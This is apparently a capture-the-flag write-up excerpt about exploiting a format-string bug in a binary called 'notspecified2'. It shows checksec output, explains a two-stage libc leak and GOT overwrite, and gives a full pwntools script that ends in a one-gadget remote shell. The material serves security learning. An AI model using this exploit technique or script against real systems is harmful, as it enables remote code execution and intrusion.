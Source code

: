 ```console
$ checksec notspecified2
[*] './notspecified2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x3fe000)
    RUNPATH:  b'.'
```

With this knowledge, we can craft a **two-stage attack**:

1. In our **first payload**, we both **leak the address of `libc`** and **overwrite the `GOT` entry for `exit`** with the address of the `main` function. This causes the program to execute the `main` function again instead of exiting, allowing us to send another payload.
2. In our **second payload**, now with the knowledge of the `libc` address, we simply **overwrite the `GOT` entry for `exit`** with the address of the **one gadget**, which we calculate using the leaked `libc` address.

Here is what that looks like in **Python**:

```python
#!/usr/bin/env python3

from pwn import *

context.update(os="linux", arch="amd64", log_level="error")
context.binary = binary = ELF("./notspecified2", checksec=False)

r = remote("10.10.62.203", 5000)

# Leak an address from libc
payload = b"%3$pBBBB"  

# Overwrite the last two bytes of exit@got.plt (0x401070) with \x12\x80
# This redirects execution to 0x401280 (address of main)
payload += b"%110x%11$hhn%146c%12$hhn".ljust(32, b"A")
payload += p64(binary.got["exit"]) 
payload += p64(binary.got["exit"] + 1)

r.recvuntil(b"Please provide your username:\n")
r.sendline(payload)

# Parse the leaked address and calculate libc base
libc_leak = int(r.recvuntil(b"BBBB").split(b" ")[1][:-4], 16)
libc_base = libc_leak - 0x114a37  

# Overwrite the GOT entry for exit with a one-gadget RCE
payload = fmtstr_payload(6, {binary.got["exit"]: libc_base + 0xebcf5})

r.recvuntil(b"Please provide your username:\n")
r.sendline(payload)
r.recv()
r.interactive("$ ")
```
{: file="solve.py" }
